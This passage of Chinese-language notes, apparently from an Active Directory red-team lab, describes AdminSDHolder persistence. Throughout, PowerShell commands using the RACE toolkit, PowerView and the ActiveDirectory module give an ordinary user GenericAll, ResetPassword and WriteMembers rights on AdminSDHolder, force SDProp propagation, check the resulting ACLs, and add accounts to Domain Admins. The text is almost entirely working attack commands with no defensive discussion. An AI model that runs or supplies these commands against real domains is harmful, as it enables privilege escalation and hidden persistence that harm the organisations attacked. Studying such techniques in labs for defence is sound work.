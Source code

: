 
## 方法2，使用ActiveDirectory Module和[RACE toolkit](https://github.com/samratashok/RACE)
```
Set-DCPermissions -Method AdminSDHolder -SAMAccountName studentuser1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -Verbose
```

为普通用户添加其他有用的权限，如ResetPassword, WriteMembers到AdminSDHolder
```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -PrincipalIdentity studentuser1 -Rights ResetPassword -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

```
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=us,dc=techcorp,dc=local' -PrincipalIdentity studentuser1 -Rights WriteMembers -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose
```

## 其他
使用 Invoke-SDPropagator.ps1 手动运行SDProp
```
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

对于 Server 2008 之前的机器
```
Invoke-SDPropagator -taskname FixUpInheritance -timeoutMinutes 1 -showProgress -Verbose
```

## 使用powerview以普通用户身份查看DA权限
```
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuser1"}
```

使用ActiveDirectory Module
```
(Get-Acl -Path 'AD:\CN=Domain Admins,CN=Users,DC=us,DC=techcorp,DC=local').Access | ?{$_.IdentityReference -match 'studentuser1'}
```

## AdminSDHolder Abuse
1. 利用FullControl权限

使用powerview
```
Add-DomainGroupMember -Identity 'Domain Admins' -Members testda -Verbose
```

使用ActiveDirectory Module
```
Add-ADGroupMember -Identity 'Domain Admins' -Members testda
```
